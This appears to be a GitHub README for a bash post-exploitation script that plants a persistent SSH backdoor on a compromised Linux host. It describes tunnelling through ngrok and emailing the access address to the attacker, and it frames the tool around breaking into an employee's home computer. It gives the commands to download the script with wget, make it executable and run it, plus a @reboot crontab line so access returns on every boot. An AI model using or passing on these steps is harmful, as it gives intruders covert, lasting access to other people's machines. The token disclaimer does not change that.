 ### SSH BACKDOOR IN BASH

This is a bash script that gives the attacker `ssh access` to a compromised host in a private network. The script uses a set of linux tools to 
set up an SSH port and uses ngrok for tunneling and the address --that is always randomized is sent to the attackers server, in this 
case the address is sent to our email address.There is a lot of footprint left behind.Please do not use this script for illegal purposes :tada:
 
##### __The following are some of the conditions that should be met for this script to work.__

- [x] The attacker should have physical access to the compromised machine and they should be root or they should have sudo priviledges.
- [x] The script uses `./ngrok` therefore familiarity with [ngrok](https://ngrok.com) is encouraged.
- [x] The compromised machine or host should be connected to an internet connection.
- [x] set up `ssmtp` to send email to our email address -- using gmail in this case :)


##### __The following is a scenarion or use case were the script can be used__

> *Imagine you as the attacker have physical access to a personal computer (of an employee of a target company) that was weakly configured giving us root. This computer is in 
> the home network therefore meaning that it does not face the public internet. You want to constanly get access to this machine, right? Running the script will 
> return an address that will enable you to connect remotely. We can make this fun by running the script as a cron-job or service on boot therefore getting 
> connections wherenever the computer is booted. Amazing or rather dangerous right :)*

**_NB_**: The script uses the `/var/tmp/` directory for its operations and logs errors that are sent back to the attacker.

- The `/etc/ssmtp/ssmtp/.conf` file should be configured since this is where ssmtp checks when sending your email. This is where the sender email 
address and the mail server is with its port is listed.

#### US4GE

1. To download the file you can use `wget` or `curl`. __First run the script to make sure everything is installed 😄__
```
wget https://raw.githubusercontent.com/mutur4/Hacking-Scripts/main/post-exploitation/ssh-backdoor/backdoor.sh
chmod +x backdoor.sh
sudo crontab -e 
```
2. Add the following line below the crontab file opened for editing 

`@reboot /usr/bin/sleep 90; /full/path/backdoor.sh`

3. Lets just sit and wait hope we dont get caught :shipit:
